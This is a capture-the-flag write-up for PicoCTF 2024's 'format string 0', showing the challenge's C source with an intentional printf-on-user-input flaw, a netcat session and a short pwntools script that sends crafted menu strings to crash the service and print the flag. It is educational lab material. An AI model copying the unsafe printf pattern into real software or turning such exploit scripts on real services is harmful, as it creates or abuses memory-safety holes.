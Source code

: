```yaml
---
title: Format String 0
parent: Easy
grand_parent: Pwn
great_grand_parent: PicoCTF
nav_order: 1
layout: default
---
```


# format string 0 - PicoCTF 2024

**Category:** Binary Exploitation  
**Difficulty:** Easy  
**Tags:** Format String, pwntools

---

## Challenge Description

> Can you use your knowledge of format strings to make the customers happy?
> 
> Files provided:
> - `format-string-0` (binary)
> - `format-string-0.c` (source code)
> - Remote instance: `nc mimas.picoctf.net <port>`

> <details>
>   <summary>Hints</summary>
>   This is an introduction of format string vulnerabilities. Look up "format specifiers" if you have never seen them before.
>   Just try out the different options
> </details>

---

## Initial Analysis

Upon reading the description and reviewing the source code, it's clear that:

- A Format String attack with be at play

> Format String attacks are attacks where arbitrary code execution can occur, resulting in numerous vulnerabilities such as: RCE, buffer overflows, DoS, etc. This can occur when the printf() function does not handle its parameters appropriately.

---

## Source Code Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int on_menu(char *burger, char *menu[], int count) {
    for (int i = 0; i < count; i++) {
        if (strcmp(burger, menu[i]) == 0)
            return 1;
    }
    return 0;
}

void serve_patrick();

void serve_bob();


int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}

void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
```

### Key Observations
- There are two individuals we must serve
- There are three options for us to choose from to serve each individual
- There are constraints that will dictate which options we choose
    - Patrick: `Gr%114d_Cheese` (passes since the printed characters exceed 64 bytes)
    - Bob: `Cla%sic_Che%s%steak` (triggers the vulnerability since it is the only option with `%s`)

---

## Static Binary Analysis

No binary analysis is necessary for this challenge.

---

## Exploitation

### Plan

1. Submit the necessary food based on our previous analysis
2. Receive the flag

### Manual Exploitation

```
$ nc mimas.picoctf.net 49618
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{<censored>}
```

### Automated Exploitation with pwntools

```python
from pwn import *
import sys

if len(sys.argv) != 2:
  print(f"Usage: {sys.argv[0]} <port>")
  sys.exit(1)

host = 'mimas.picoctf.net'
port = int(sys.argv[1])

conn = remote(host, port)

# First customer (Patrick)
conn.recvuntil(b"Enter your recommendation:")
conn.sendline(b"Gr%114d_Cheese")

# Second customer (Sponge Bob)
conn.recvuntil(b"Enter your recommendation:")
conn.sendline(b"Cla%sic_Che%s%steak")

# Receive flag
print(conn.recvall().decode())
```

## Key Takeaways
- Format String attacks can be utilized to exploit a program in various ways
- Binary analysis is not always necessary in a pwn challenges